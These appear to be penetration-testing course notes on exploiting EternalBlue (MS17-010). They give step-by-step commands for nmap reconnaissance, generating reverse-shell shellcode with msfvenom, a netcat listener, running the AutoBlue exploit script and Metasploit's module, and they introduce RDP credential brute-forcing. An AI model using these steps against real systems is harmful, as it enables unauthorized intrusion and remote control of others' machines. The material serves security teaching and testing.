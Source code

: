 + Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have yet to patch the system
+ The EternalBlue exploit has a <r>MSF</r> auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
+ The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system
+ In addition to the MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code

<g>AutoBlue-MS17-010</g> is the exploit script on github

#### Recon EternalBlue ####
+ will first do some recon
  + `sudo nmap -sV -p 445 -O IP`
    + Can see that SMB is running and it is windows server 2008, which is vulnerable 
+ Can also use an nmap script, <o>--script smb-vuln-ms17010</o> to see if it is vulnerable 
  + Will tell us the risk and that it is running SMBv1

#### Manually Exploiting EternalBlue ####

Will go to the github <g>AutoBlue-MS17-010</g>
+ Clone the repository 
+ The exploit py file will have multiple versions
+ There will also be a text file with dependencies 
  + can install with `pip install -r requirements.txt`
+ first generate the shell code with:
  + ./shell_prep.sh
  + can generate reverse shell with msfvenom 
    + will have information requirements (LHOST, LPORT, etc)
+ Can now start a <g>netcat</g> listener 
  +  `nc -nvlp 1234` where 1234 was the port specified in the shell code
+ Then can run the exploit
  + make a file executable with `chmod +x FILENAME.py`
  + Then can run with `python3 eternalblue_exploit.py TARGET_IP shellcode/sc_x64.bin` (or whatever shell code is being used)
+ Now have a command shell 

#### Automatic Exploiting EternalBlue ####
+ Open <r>msfconsole</r>
  + `search eternalblue`
    + will have an option of a scanner or an exploit 
  + `show options`
  + `set RHOSTS IP`
  + `run`
+ Now has the meterpreter session very quickly 

### Exploiting RDP ###

+ TheRemoteDesktopProtocol(RDP)is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
+ RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
  + Must be aware that they may move it to another port 
+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
+ We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.
